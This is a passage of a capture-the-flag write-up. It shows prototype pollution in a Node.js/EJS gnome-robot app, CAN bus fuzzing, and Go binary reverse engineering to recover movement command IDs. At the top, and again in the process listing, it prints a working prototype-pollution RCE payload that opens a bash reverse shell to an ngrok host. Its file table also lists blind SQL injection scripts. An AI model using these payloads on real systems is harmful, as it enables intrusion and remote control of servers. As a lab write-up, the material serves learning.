{"type":"message","data":"success","message":"Updated __proto__.outputFunctionName to _tmp;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/8.tcp.ngrok.io/10135 0>&1\"');return '';//"}
```

After this, a refresh of the `/stats` page does not load anything, but we can see the reverse shell connected:
```bash
Ncat: Connection from [::1]:61848.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@75399ff53b41:/app# 
```

Let's do a [shell upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q) to make the session more interactive:
```bash
root@75399ff53b41:/app# script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@75399ff53b41:/app# ^Z
[1]+  Stopped                 nc -lvnp 443
$ stty raw -echo; fg
nc -lvnp 443
reset
reset: unknown terminal type unknown
Terminal type? screen
root@75399ff53b41:/app# 
```

We now have access to the remote environment.

#### Script Automation
The [`set_reverse_shell.py`](./set_reverse_shell.py) Python script facilitates the reproducibility of the attacks with the workflow explained above, but using a different polluted property (`escapeFunction`).

---

## Canbus Script Analysis

### Server Enumeration
The reverse shell starts in the `/app` directory, which contains the following files:
```bash
root@75399ff53b41:/app# ls -asl 
total 88
 4 drwxr-xr-x  1 root root  4096 Apr  3 05:47 .
 4 drwxr-xr-x  1 root root  4096 Apr  3 05:47 ..
 4 -rw-r--r--  1 root root   283 Oct  1  2025 .env
 8 -rw-r--r--  1 root root  6957 Oct  1  2025 README.md
 4 -rwxr-xr-x  1 root root  3310 Oct  1  2025 canbus_client.py
 4 drwxr-xr-x 81 root root  4096 Dec  5 21:33 node_modules
40 -rw-r--r--  1 root root 36919 Dec  5 21:33 package-lock.json
 4 -rw-r--r--  1 root root   359 Oct  1  2025 package.json
12 -rw-r--r--  1 root root  9867 Oct  1  2025 server.js
 4 drwxr-xr-x  2 root root  4096 Oct  1  2025 views
```
- `server.js` is the webserver for the Node.js application.
- `README.md` has documentation for the CAN bus protocol.
- `canbus_client.py` is the Python script that sends movement commands to the gnome controller.

#### `server.js`
The webserver is an Express application using EJS for templating:
```js
const express = require('express');
const { exec } = require('child_process');
const app = express();

app.set('view engine', 'ejs');
```

It maintains a global object to store gnome settings:
```js
const gnomeBotObjectDetails = {
    settings: {
        name: gnomebotname,
        model_version: "2.3.8",
        firmware_version: "GNM-4.12.0",
    },
}
```

The `/ctrlsignals` endpoint gets to a switch statement based on the action parameter:
```js
app.get('/ctrlsignals', (req, res) => {
    const requestPayload = JSON.parse(decodeURIComponent(req.query.message));
    res.setHeader('Cache-Control', 'no-store, no-cache, must-revalidate, proxy-revalidate');
    res.setHeader('Pragma', 'no-cache');
    res.setHeader('Expires', '0');                          
    // Check if the request payload is valid
    if (!requestPayload || !requestPayload.action) {
        console.error("Invalid request payload");
        res.status(400).send('Invalid request payload');
        return;                       
    }                                                    
    // Handle the control signal
    switch (requestPayload.action) {
        [...]
    }
```

It handles two actions:
- The "move" action calls the Python script:
    ```js
    case 'move':
        [...]
        const direction = requestPayload.direction;
        const command = `/usr/bin/python3 /app/canbus_client.py "${direction}"`;

        switch (direction) {
            case 'left':
            case 'right':
            case 'up':
            case 'down':
                console.log(`Executing command: ${command}`);
                exec(command, (error, stdout, stderr) => {
                if (error) {
                    console.error(`Error executing command: ${error.message}`);
                    return;
                }
                [...]
                console.log(`Command stdout: ${stdout}`);
        });
        res.send(JSON.stringify({ type: "message", data: "success", message: `Moving ${direction}` }));
        break;
        [...]
    ```
    Because it's using `exec` and not `execSync`, the server returns the success message immediately after spawning the Python process, which is why the web UI says "success" even when the gnome doesn't actually move.

    When it calls the `canbus_client.py` Python script, it passes the `direction` as "up", "down", "left", or "right".
- The "update" action modifies the settings object:
    ```js
    case 'update':
        [...]
        const { key, subkey, value } = requestPayload;
        gnomeBotObjectDetails[key][subkey] = value;
        res.send(JSON.stringify({ type: "message", data: "success", message: `Updated ${key}.${subkey} to ${value}` }));
        [...]
        break;
    ```
    This is the code that's vulnerable to prototype pollution as there's no validation that `key` isn't `__proto__` or `constructor`.

#### `canbus_client.py`
The Python script uses the `python-can` library to send movement commands over the CAN bus.

The program connects to an interface named `gcan0`:
```python
import can

IFACE_NAME = "gcan0"

bus = can.interface.Bus(channel=IFACE_NAME, interface='socketcan', receive_own_messages=False)
```

The `send_command` function creates a CAN message with the given ID and sends it:
```python
def send_command(bus, command_id):
    """Sends a CAN message with the given command ID."""
    message = can.Message(
        arbitration_id=command_id,
        data=[],
        is_extended_id=False
    )
    try:
        bus.send(message)
        print(f"Sent command: ID=0x{command_id:X}")
    except can.CanError as e:
        print(f"Error sending message: {e}")
```

The command IDs are defined in a map at the top:
```python
# Define CAN IDs (I think these are wrong with newest update, we need to check the actual device documentation)
COMMAND_MAP = {
    "up": 0x656,
    "down": 0x657,
    "left": 0x658,
    "right": 0x659,
    # Add other command IDs if needed
}
```
The comment confirms these IDs are wrong. We need to find the correct ones.

There's also a `listen` mode that monitors the bus for incoming messages:
```python
def listen_for_messages(bus):
    """Listens for CAN messages and prints them."""
    print(f"Listening for messages on {bus.channel_info}. Press Ctrl+C to stop.")
    for msg in bus:
        timestamp = datetime.datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')[:-3]
        print(f"{timestamp} | Received: {msg}")
```
This may be useful for debugging what's happening on the CAN bus.

#### `README.md`
The README has documentation for the CAN bus protocol. It explains that all communication happens on the `gcan0` interface with multi-byte values sent big endian.

The documentation shows a request/response pattern for data queries. The client sends a data request with an ID in the `0x4xx` range, and the GnomeBot sends a data response with an ID in the `0x3xx` range:

| Request ID | Response ID | Description | Constant Name |
| --- | --- | --- | --- |
| `0x400` | `0x300` | Battery voltage | `statusBatteryVoltageID` |
| `0x410` | `0x310` | Motor speed (left) | `statusMotorSpeedLeftID` |
| `0x460` | `0x360` | System temperature | `statusSystemTempID` |
| `0x470` | `0x370` | GPS fix status | `statusGPSFixID` |
| `0x4C0` | `0x3C0` | Payload status | `statusPayloadStatusID` |

There's also a long list of periodic status messages that the GnomeBot sends automatically (motor speeds, sonar distances, IMU data, WiFi status, etc.) all in the `0x3xx` range.

However, the movement commands are listed as `TODO`:
```
## 🛠️ Movement Commands & Acknowledgments (Client <-> GnomeBot)

TODO: There are more signals related to controlling the GnomeBot's movement
(Up/Down/Left/Right) and the acknowledgments sent back by the bot.
These involve CAN IDs that are not totally settled yet. We are still polishing
the documentation for these - check back after eggnog break!
```

So, the IDs used in `canbus_client.py` (`0x656`-`0x659`) aren't documented anywhere. We need another way to find the correct ones.

### Option 1: Canbus Fuzzing POC
We can use the reverse shell to send canbus messages with different IDs to test the response. If we send a valid move command ID, then the bot should move in the UI.

Using the application `canbus_client.py` Python script as a reference, let's start with a simple Python script to import `can`, create a message with command ID `0x001`, and send the message:
```python
import can

bus = can.interface.Bus(channel='gcan0', interface='socketcan')
msg = can.Message(arbitration_id=0x001, data=[], is_extended_id=False)
bus.send(msg) 
```

When the message is sent, there is a message on the website:
```
Unknown canbus command ID: 0x1
```

This confirms that we can send command IDs and see the result in the website.

### Option 2: Canbus Process Reverse Engineering POC
The CAN bus messages are being processed by some running process. Let's check with `ps aux`:
```bash
root@8f5089f9f5e6:/app# ps auxw
```
```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.2  0.0 1149504 4012 ?        Ssl  04:56   0:00 /app/gnome_cancontroller
root          19  0.0  0.0   4364  3216 ?        S    04:56   0:00 bash -c /usr/sbin/sshd -D & node server.js 2>&1 > /tmp/node.log
root          21  0.0  0.0  15436  8788 ?        S    04:56   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root          22  0.5  0.3 703864 53368 ?        Sl   04:56   0:00 node server.js
root          33  0.0  0.0   2892   972 ?        S    04:57   0:00 /bin/sh -c bash -c "bash -i >& /dev/tcp/8.tcp.ngrok.io/10135 0>&1
root          34  0.0  0.0   4364  3316 ?        S    04:57   0:00 bash -c bash -i >& /dev/tcp/8.tcp.ngrok.io/10135 0>&1
root          35  0.0  0.0   4628  3904 ?        S    04:57   0:00 bash -i
root          38  0.0  0.0   2808  1056 ?        R    04:57   0:00 script /dev/null -c bash
root          39  0.0  0.0   2892   940 pts/0    Ss   04:57   0:00 sh -c bash
root          40  0.0  0.0   4628  3792 pts/0    S    04:57   0:00 bash
root          45  0.0  0.0   7064  1560 pts/0    R+   04:57   0:00 ps auxw
```

At the top of the list, we can see PID 1 is `/app/gnome_cancontroller`. However, this file does not exist:
```bash
root@8f5089f9f5e6:/app# ls -asl /app/gnome_cancontroller
ls: cannot access '/app/gnome_cancontroller': No such file or directory
```

The file does not exist on disk, but the process is running. This can happen when the binary is deleted from the disk *after* the process is started.

Even though the file is deleted, the binary is still accessible via the `/proc` filesystem. It looks like a link to the original location:
```bash
root@8f5089f9f5e6:/app# ls -l /proc/1 | grep gnome
lrwxrwxrwx  1 root root 0 Apr  4 05:02 exe -> /app/gnome_cancontroller (deleted)
```

If we try to access it, we can see the content:
```bash
root@8f5089f9f5e6:/app# cat /proc/1/exe | xxd | head
```
```
00000000: 7f45 4c46 0201 0100 0000 0000 0000 0000  .ELF............
00000010: 0200 3e00 0100 0000 6037 4600 0000 0000  ..>.....`7F.....
00000020: 4000 0000 0000 0000 7002 0000 0000 0000  @.......p.......
00000030: 0000 0000 4000 3800 0a00 4000 2400 0900  ....@.8...@.$...
00000040: 0600 0000 0400 0000 4000 0000 0000 0000  ........@.......
00000050: 4000 4000 0000 0000 4000 4000 0000 0000  @.@.....@.@.....
00000060: 3002 0000 0000 0000 3002 0000 0000 0000  0.......0.......
00000070: 0010 0000 0000 0000 0300 0000 0400 0000  ................
00000080: e40f 0000 0000 0000 e40f 4000 0000 0000  ..........@.....
00000090: e40f 4000 0000 0000 1c00 0000 0000 0000  ..@.............
```

This confirms that we have access to the binary for further analysis.

---

## Canbus Script Solution

### Option 1: Find Move Command IDs via Fuzzing
Based on the application `README.md` file, there are data requests in the `0x400`s and responses in the `0x300`s. The current "bad" move command IDs are in the `0x600`s.

Let's check for command IDs in different ranges, e.g., 0x100s, 0x200s, etc. The [`canbus-fuzzing.py`](./canbus-fuzzing.py) Python script helps to automate this step by allowing the definition of the begin and end command IDs for the range to test.

When running values in the `0x200` range, the bot moves down. Using the script again, we can send individual command IDs to confirm and we can see that the bot moves with the following values:

| Command ID | Move Direction |
| --- | --- |
| `0x201` | Up |
| `0x202` | Down |
| `0x203` | Left |
| `0x204` | Right |

### Option 2: Find Move Command IDs via Reverse Engineering
Let's transfer the `gnome_cancontroller` binary to the local machine for further analysis.

The binary file is a Go Linux ELF executable:
```bash
file gnome_cancontroller
```
```
gnome_cancontroller: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, Go BuildID=7EfvgHaebxiH3v_LswsB/snSuwBhQ3Wi-kgV68SLU/YnG3kmsMhkFEWYPhYUcC/BcIju6Z6Zzi8fCwdBqoT, not stripped
```

Let's open the file in Ghidra and use a plugin extension to handle Golang decompiled code (https://github.com/mooncat-greenpy/Ghidra_GolangAnalyzerExtension/releases).

There are several functions in the `main` package that look interesting.



More specifically, the important logic seems to be in the `main.init` function:
```go
void main.init(void)
{
  map[uint32]uint32 phVar1;
  undefined4 *extraout_RAX;
  undefined4 *extraout_RAX_00;
  undefined4 *extraout_RAX_01;
  undefined4 *extraout_RAX_02;
  undefined4 *extraout_RAX_03;
  undefined4 *extraout_RAX_04;
  undefined4 *extraout_RAX_05;
  undefined4 *extraout_RAX_06;
  undefined4 *extraout_RAX_07;
  long unaff_R14;
  
  while (&stack0x00000000 <= *(undefined1 **)(unaff_R14 + 0x10)) {
    runtime.morestack_noctxt();
  }
  phVar1 = (map[uint32]uint32)runtime.makemap_small();

  runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x201);
  *extraout_RAX = 0x281;

  runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x202);
  *extraout_RAX_00 = 0x282;

  runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x203);
  *extraout_RAX_01 = 0x283;

  runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x204);
  *extraout_RAX_02 = 0x284;

  if (runtime.writeBarrier._0_4_ != 0) {
    runtime.gcWriteBarrier();
    phVar1 = main.commandAckMap;
  }
  main.commandAckMap = phVar1;

  phVar1 = (map[uint32]uint32)runtime.makemap_small();

  runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x400);
  *extraout_RAX_03 = 0x300;

  runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x470);
  *extraout_RAX_04 = 0x370;

  runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x410);
  *extraout_RAX_05 = 0x310;

  runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x460);
  *extraout_RAX_06 = 0x360;

  runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x4c0);
  *extraout_RAX_07 = 0x3c0;

  if (runtime.writeBarrier._0_4_ != 0) {
    runtime.gcWriteBarrier();
    phVar1 = main.requestDataMap;
  }

  main.requestDataMap = phVar1;
  return;
}
```

This function sets two command maps:
- `main.requestDataMap` in the second half of the function that contains the CAN data request and response IDs we found in the application [`README.md`](#readmemd) file.
    ```go
    runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x400);
    *extraout_RAX_03 = 0x300;

    runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x470);
    *extraout_RAX_04 = 0x370;

    runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x410);
    *extraout_RAX_05 = 0x310;

    runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x460);
    *extraout_RAX_06 = 0x360;

    runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x4c0);
    *extraout_RAX_07 = 0x3c0;
    ```
- `main.commandAckMap` in the first half of the function that contains the Movement Commands & Acknowledgments.
    ```go
    runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x201);
    *extraout_RAX = 0x281;

    runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x202);
    *extraout_RAX_00 = 0x282;

    runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x203);
    *extraout_RAX_01 = 0x283;

    runtime.mapassign_fast32(&datatype.Map.map[uint32]uint32,phVar1,0x204);
    *extraout_RAX_02 = 0x284;
    ```
    | Command ID | Acknowledgment ID |
    | --- | --- |
    | `0x201` | `0x281` |
    | `0x202` | `0x282` |
    | `0x203` | `0x283` |
    | `0x204` | `0x284` |

Let's confirm the bot movements with the [`canbus-fuzzing.py`](./canbus-fuzzing.py) Python script by sending each command ID:

| Command ID | Move Direction |
| --- | --- |
| `0x201` | Up |
| `0x202` | Down |
| `0x203` | Left |
| `0x204` | Right |

### Fix the Script
Let's edit the `canbus_client.py` on the server and change the values in the COMMAND_MAP at the top:
```python
COMMAND_MAP = {
    "up": 0x201,
    "down": 0x202,
    "left": 0x203,
    "right": 0x204,
    # Add other command IDs if needed
}
```

After this change, the arrow keys in the game work to move the robot correctly.

---

## Solve the Final Puzzle

The last part of the challenge is to solve a classic box-push game. Any box can be moved if the bot pushes it to an empty space.

Here is the sequence of steps to create a path to the power switch to shut down the factory:
1. Go "down" and push box "left".

   

2. Go "down" and push box "left" again.

   

3. Go "down" and push box "right".

   

4. Go "down" two times.

   

5. Go "left" three times.

   

6. Go "up" and push box "left".

   

7. Go "up" and push box "left" again.

   

8. Go "right" and push box "up".

   

9.  Push box "left".

    

10. Go "up" two times and "left".

    

The full path is: down, left, down, left, down, right, down, down, left, left, left, up, left, up, left, right, up, left, up, up, left.



---

## Outro

**Chris Davis**

Excellent work! You've successfully taken control of the gnome - look at that interface responding to our commands now.

Time to turn this little rebel against its own manufacturing operation and shut them down for good!

---

## Files

| File | Description |
|---|---|
| `john-the-ripper.txt` | SecList word list used as a reference to create a shorter word list of English first names |
| `usernames.txt` | Shorter word list of English first names to find users in the Cosmos DB |
| `sqli-user.py` | Python script for Cosmos DB SQL Boolean-Based Blind Injection to find usernames |
| `sqli-digest.py` | Python script for Cosmos DB SQL Boolean-Based Blind Injection to find username digests |
| `set-reverse-shell.py` | Python script to achieve RCE via prototype pollution |
| `app.zip` | Compressed file with the content of the `/app` folder on the server |
| `canbus-fuzzing.py` | Python script to fuzz CAN bus command IDs (single ID or range of IDs) |
| `gnome_cancontroller` | Go Linux ELF binary recovered from the server via `/proc`; used for reverse engineering |
| `canbus_client-final.py` | Updated server-side Python script with the correct movement command IDs |

---

## References

- [`ctf-techniques/web/sqli/`](../../../../../ctf-techniques/web/sqli/README.md) — Boolean-based blind SQL injection (adapted here for Cosmos DB)
- [`ctf-techniques/web/prototype-pollution/`](../../../../../ctf-techniques/web/prototype-pollution/README.md) — Prototype pollution → RCE via EJS gadget
- [`ctf-techniques/web/curl/`](../../../../../ctf-techniques/web/curl/README.md) — cURL command reference
- [`ctf-techniques/network/tunneling/`](../../../../../ctf-techniques/network/tunneling/README.md) — Ngrok tunnel and reverse shell setup
- [`ctf-techniques/reverse/`](../../../../../ctf-techniques/reverse/README.md) — Go binary reverse engineering with Ghidra
- [`ctf-techniques/hardware/`](../../../../../ctf-techniques/hardware/README.md) — Go binary reverse engineering with Ghidra
- [Ghidra](https://ghidra-sre.org/) — NSA's free software reverse engineering (SRE) suite
- [Ghidra Golang Analyzer Extension](https://github.com/mooncat-greenpy/Ghidra_GolangAnalyzerExtension/releases) — Ghidra plugin for Go binary analysis
- [PortSwigger: Prototype Pollution](https://portswigger.net/web-security/prototype-pollution) — Prototype pollution vulnerability reference
- [PortSwigger: Server-Side Prototype Pollution](https://portswigger.net/web-security/prototype-pollution/server-side) — Server-side escalation techniques
- [CrackStation](https://crackstation.net/) — online hash lookup for cracking unsalted MD5

---

## Navigation

| | |
|:---|---:|
| ← [Gnome Tea](../gnome-tea/README.md) | [Schrödinger's Scope](../schroedingers-scope/README.md) → |
